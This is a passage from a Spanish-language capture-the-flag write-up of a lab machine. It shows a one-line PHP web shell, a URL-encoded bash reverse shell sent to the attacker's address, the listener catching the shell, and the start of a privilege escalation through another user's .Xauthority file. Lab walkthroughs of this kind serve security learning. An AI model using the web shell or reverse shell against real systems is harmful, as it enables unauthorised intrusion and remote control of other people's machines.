 Nos creamos una pequeña web shell.
```shell
$ cat shell.php 
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>
```

Y ya nos podemos mandar la rev shell
`http://10.129.228.109/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.18/443%200%3E%261%22`

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.109] 58462
bash: cannot set terminal process group (1050): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ 
alex@squashed:/var/www/html$ whoami
whoami
alex
```

Y ya podemos leer la flag de usuario
```shell
alex@squashed:/var/www/html$ cat /home/alex/user.txt
cat /home/alex/user.txt
f469293aeb9ecd01....
```

# Privilege Escalation
Si nos damos cuenta, hemos ganado acceso como el usuario `alex` y en el NFS, estaba el directorio personal de trabajo de un usuario llamado `ross`

Dentro de este directorio se encontraba un archivo `.Xauthority` pero todavía no lo había analizado porque ya tengo un usuario en mi máquina con ese UID.

Me interesa tanto este archivo porque podemos enumerar que el usuario `ross` tiene una sesión activa en el equipo
```shell
alex@squashed:/home/alex$ w
w
 10:10:41 up 41 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               09:29   41:36   3.57s  0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Y con este archivo `.XAuthority` que es de `ross` podría conseguir ver la pantalla de este usuario y quizás se filtre información confidencial.

Tengo dos opciones, o asignar una Shell a este usuario para poder migrar a este, o cambiar el UID de este usuario y crear otro usuario con el UID 1001.
![Write-up Image](images/Screenshot_6.png)
